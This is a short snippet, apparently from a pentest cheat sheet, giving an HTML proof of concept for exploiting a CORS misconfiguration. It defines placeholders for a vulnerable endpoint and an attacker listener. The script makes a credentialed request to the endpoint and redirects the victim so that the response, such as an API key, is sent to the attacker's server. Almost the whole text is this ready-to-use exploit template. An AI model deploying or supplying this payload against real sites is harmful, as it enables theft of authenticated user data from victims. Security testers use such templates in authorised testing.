 
`{ENDPOINT}` - Vulnerable endpoint address
`{MyServer}` - Collaborator/Listener address

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','{ENDPOINT}',true);
        req.withCredentials = true;
        req.send();

        function reqListener() {
        location='{My_Server}/exploit?key='+this.responseText;
};
      }
      submitRequest();
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```
